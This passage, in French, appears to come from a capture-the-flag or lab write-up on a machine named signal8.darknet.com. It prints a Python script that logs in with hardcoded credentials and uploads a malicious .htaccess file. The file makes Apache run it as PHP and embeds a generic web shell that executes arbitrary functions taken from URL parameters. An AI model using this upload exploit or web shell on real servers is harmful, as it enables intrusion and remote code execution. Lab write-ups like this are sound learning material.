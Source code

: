La seule solution semble être d'avoir un fichier .htaccess qui puisse provoquer l'exécution directe de code et en fouillant bien je trouve [cette astuce](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20insecure%20files/PHP%20.htaccess) sur le Github de *PayloadsAllTheThings*.  

Je créé alors une backdoor générique précédemment décrite [dans cet article](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file) :  

```python
from itertools import combinations
import requests

sess = requests.session()
login_data = {
    "username": "devnull",
    "password": "j4tC1P9aqmY",
    "Action": "Login"
    }

r = sess.post(
    "http://signal8.darknet.com/xpanel/",
    data=login_data,
    headers={"Content-Type": "application/x-www-form-urlencoded"}
    )

if "Editor PHP" not in r.text:
    print "Auth failed!"
    exit()

upload_data = [
        ("Action", "Upload"),
        ("checkbox[]", '37'),
        ("checkbox[]", '10'),
        ("checkbox[]", '59'),
        ("checkbox[]", '17')]

ini_content = """
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# Make .htaccess file be interpreted as php file. This occur after apache has interpreted
# the apache directoves from the .htaccess file
AddType application/x-httpd-php .htaccess

###### SHELL ###### <?php $func = isset($_GET["f"]) ? $_GET["f"] : ""; $arg1 = isset($_GET["a"]) ? $_GET["a"] : ""; $arg2 = isset($_GET["b"]) ? $_GET["b"] : ""; $ret_func = isset($_GET["rf"]) ? $_GET["rf"] : ""; $ret_val = ""; if ($func != "") { if ($arg1 != "" && $arg2 != "") { $ret_val = $func($arg1, $arg2); } elseif ($arg1 != "") { $ret_val = $func($arg1); } else { $ret_val = $func(); } } if ($ret_func != "") { $ret_func($ret_val); } ?>"""

r = sess.post(
    "http://signal8.darknet.com/xpanel/ploy.php",
    data=upload_data,
    files={'imag':('.htaccess', ini_content)}
    )
print r.text
```
